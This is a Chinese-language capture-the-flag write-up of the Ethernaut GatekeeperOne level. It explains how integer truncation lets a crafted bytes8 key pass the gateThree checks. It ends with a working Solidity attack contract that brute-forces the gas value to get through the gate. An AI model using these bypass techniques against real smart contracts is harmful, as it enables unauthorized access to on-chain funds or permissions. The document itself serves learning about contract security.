 ```solidity
modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

空讲很难理解，用一个例子来解释吧。传入的是bytes8，那么就假如传入的是：0x11112222aaaabbbb

1. 第一个require：`uint32(uint64(_gateKey))`从低位截取，变成0xaaaabbbb。`uint16(uint64(_gateKey))`从低位截取，变成0xbbbb。根据solidity的规则，uint32和uint16在比较的时候，较小的类型uint16会在高位补0至位数和较大类型uint32一致，即：0x0000bbbb和0xaaaabbbb比较。因此，我们的参数`_gateKey`得是一个xxxxxxxx0000xxxx类型的数值。
2. 第二个require：`uint64(_gateKey)`是保留所有位，而`uint32(uint64(_gateKey))`保留低32位。两者低32位是一模一样的，要通过require，则需要高32位任意一位不一致即可，因为`uint32(uint64(_gateKey))`高32位全部为0，那么我们传入的参数高32位至少需要一位数不为0。因此，我们的参数`_gateKey`可以是一个FFFFFFFF0000xxxx类型的数值。
3. 第三个require：目前我们确定参数`_gateKey`可以是一个FFFFFFFF0000xxxx类型的数值。那么`uint32(uint64(_gateKey))`之后的结果就是0000xxxx。`uint16(uint160(tx.origin))`是对钱包地址进行操作，数值类型从低位开始截取，即`uint16(uint160(tx.origin))`的结果是我们钱包地址的后16位，就是后面4个数，对于我来说为97c6。那么这个`_gateKey`就确定下来了，可以为：FFFFFFFF000097c6。（前8个F是可变的，0000是雷打不动的，97c6根据自己的钱包而定）

## 攻击合约

```solidity
contract Hack{
  GatekeeperOne gatekeeperOne = GatekeeperOne(0x133636510C89C2075813d4Aba991A44B5A85aA97);

  function attack() public {
    bytes8 key = 0xFFFFFFFF000097c6;
      // 网络版本
      // 为什么这么写呢？因为有玩家通过测试，本关这里的gas的i大概在210次
      // 然后他取了一个缓冲值60上下浮动，即：210加减60=>150~270
      // 那么，他就打算从gas=150开始循环
      // 最多到270次就收手，这就是120的由来：270-150=120
      for (uint256 i = 0; i < 120; i++) {
          (bool result,) = address(gatekeeperOne).call{gas:i + 150 + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)",key));
          if (result) {
              break;
          }
      }
  }

  function attack_() public {
    bytes8 key = 0xFFFFFFFF000097c6;
      //未知版本
      for (uint256 i = 0; i < 8191; i++) {
          // 乘3原因：气体最低21000，低于这个值就很可能call调用失败。因此*3就大于21000，你可以乘任何>=3的值
          // i从0开始，不断尝试，理论上最多有8191种可能，肯定能试出来。
          // 一旦试出来，result返回true，就可以退出循环了
          (bool result,) = address(gatekeeperOne).call{gas:i + 8191 * 3}(abi.encodeWithSignature("enter(bytes8)",key));
          if (result) {
              break;
          }
      }
  }
}
```
